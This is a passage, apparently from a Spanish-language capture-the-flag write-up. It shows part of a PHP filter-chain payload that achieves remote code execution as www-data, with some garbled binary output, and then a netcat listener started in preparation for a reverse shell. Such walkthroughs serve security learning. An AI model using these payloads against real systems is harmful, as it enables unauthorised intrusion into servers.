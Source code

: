 ```bash
t.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&cmd=id
```

Logramos **RCE**
```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$)C�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@
```
### Intrusion
Modo escucha
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
```